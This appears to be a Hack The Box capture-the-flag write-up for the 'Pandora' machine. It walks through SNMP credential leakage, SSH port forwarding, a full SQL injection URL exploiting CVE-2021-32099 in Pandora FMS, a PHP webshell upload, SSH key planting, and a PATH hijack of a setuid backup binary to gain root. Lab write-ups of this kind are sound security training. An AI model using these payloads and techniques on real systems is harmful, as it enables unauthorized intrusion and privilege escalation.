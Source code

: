 +++
title = "Hack The Box - Pandora"
tags = [
    "ctf"
]
date = "2022-04-04"
toc = true
+++

# Premise

Second verse same as the first - we're given an IP and no further information. Commence enumeration!

# Enumeration

To set the stage, enumeration is probably the hardest part of this challenge. The rest is doable with some patience and research.

Out of the gate we have a website talking about some random product. There's nothing interactable, and `nmap` only gives us TCP 22 and 80 as open ports.

Fuzzing with `ffuf` and `nikto` turns up nothing actionable, just `icons` and `asset` directories, neither of which can be used for anything.

This is where I got stuck a bit initially, trying to fingerprint the web server further, find alternate hostnames for name-based virtual hosts, etc...but there's nothing, at least out of the gate.

From here, I decided to run a rather painstaking UDP scan with `nmap`, which turned up UDP 161:

```
Discovered open port 161/udp on 10.10.11.136 
```

This wound up being SNMP v1, so we can try running `snmpwalk` against it. Not being overly familiar with this tool, I just took the default examples and ran against it to experiment- `snmpwalk -oS -c public -v 1 panda.htb`. Among other information, if you watch long enough (I mentioned patience...) this will pop up with:

```
iso.3.6.1.2.1.25.4.2.1.5.843 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23
```
These credentials couldn't possibly work over SSH, could they? They do.

Unfortunately, our flag is not in the home dir of the user in question, but is unreadable in `/home/matt/`. On to other enumeration!

# Foothold, but no real traction

At this point we're on the box, we've got reliable access over `ssh`, but we can't really do anything as the `daniel` user has little to no permissions. 

We know we've got an Apache server running, so let's see what else is running. Maybe there's another site that we couldn't enumerate earlier. As it turns out, there is another directory under `/var/www` - `pandoraconsole` but we can't hit it remotely. Looking at `/etc/apache/sites-enabled/pandora.conf` we can see that it's  _only_ listens on `localhost` which is part of the reason we couldn't fuzz for it - and that it runs as `matt`, the user who has our first flag.

# Opening a Pandora's Box

Since this will only respond on `localhost`, we'll need to proxy access. There are a few ways to do this, but SSH port forwarding is probably the easiest by far:

```
ssh -L 80:localhost:80 panda.htb
```

Yep! We have a console. Maybe the same creds? Maybe, but says user can only use the API. Main site links us to docs that cover the API, but long story short there's no direct compromise available there - this is a deep rabbit hole.

What we do know at this point is that we've got another possible attack surace - Pandora FMS v7.0NG.742_FIX_PERL2020, and some quick research turns up a few vulnerabilities - https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained.

Following up with https://github.com/ibnuuby/CVE-2021-32099, we can run the example request and all of a sudden we have an active session as an admin.

```
http://localhost:80/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

At this point we've got admin level access to this product, which must be an avenue for further compromise, but there's nothing immiediately obvious.

# Can we put things in the box?

As it turns out, the one thing we _can_ do in this product is perform arbitrary file uploads.

While the paths for these get hashed in so far as how they're returned in the file upload API, poking around the UI we can see some overlap between the images used to populate parts of the UI, logos, etc... and the contents of the directories that we're able to upload to. This means we've likely got a predictable path for where our uploaded files will land.

While this doesn't let us do anything fun like SVG vulnerabilities, it does let us do something even more silly... upload a [PHP webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985). 

Were our theories about predictable paths correct? Yep! http://localhost/pandora_console/images/webshell.php - and it looks like we're running as `matt`. Let's get the user flag!

```
cat /home/matt/user.txt
b7989...
```
 
# Getting root

Let's try to get a shell as `matt` by copying our public key into `authorized_keys` through the webshell.

```
echo <key> >> /home/matt/.ssh/authorized_keys
```
```
➜  ssh matt@panda.htb                                   
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon  4 Apr 16:38:43 UTC 2022

  System load:  0.02              Processes:             234
  Usage of /:   63.2% of 4.87GB   Users logged in:       1
  Memory usage: 9%                IPv4 address for eth0: 10.10.11.136
  Swap usage:   0%

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

matt@pandora:~$ 

```

We are in!

The current run of the mill stuff like polkit vulnerabilities appear to have been patched, so no luck there, and we don't have any `sudo` privs. Nothing obvious gained here other than the user flag.

At this point I decided to take a step back and run [pspy](https://github.com/DominicBreuker/pspy) for a few hours to see if anything interesting came up. While this gave me a few leads, there was nothing that was jumping out at me or lead to anything other than rabbit holes.

After letting `pspy` again run for a bit longer in the background and getting nowhere I decided to check for something simple - we we have any `setuid` flagged scripts/binaries that we could abuse?

```
matt@pandora:/dev/shm$ find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

`pandora_backup` looks like a plant... what is it and can we use it?

```
matt@pandora:/dev/shm$ ll /usr/bin/pandora_backup 
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup*
```

It's either a plant, or its our target. I'm guessing the later. It's a binary though, so let's see what's in it... hopefully there are some plain text strings:


```
PandoraFMS Backup Utility^@^@^@^@^@^@^@Now attempting to backup PandoraFMS client^@^@^@^@^@^@tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*^@Backup failed!
```

Ok, we can run with this... so it's trying to create a tar file, and it's not specifying the path to the executable. Can we abuse this with a `PATH` update?

```
tar: Removing leading `/' from hard link targets
/var/www/pandora/pandora_console/COPYING
/var/www/pandora/pandora_console/DB_Dockerfile
```

It's definitely running `tar`. Let's update PATH with a malicious `tar` executable that's going to spawn a shell. Since this process runs as `root`, we should be able to get a `root` shell, right?

```
matt@pandora:/dev/shm$ echo "/bin/bash" > tar
matt@pandora:/dev/shm$ chmod +x tar 
matt@pandora:/dev/shm$ PATH=/dev/shm:$PATH
matt@pandora:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Running `tar` as `matt` now gives us a new shell (as `matt`). Does this carry over into `pandora_backup`?

YES!

```
matt@pandora:/dev/shm$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/dev/shm# whoami
root
root@pandora:/dev/shm# cat /root/root.txt 
18dd17ce1...
```

Time to clean up and get out! GG!


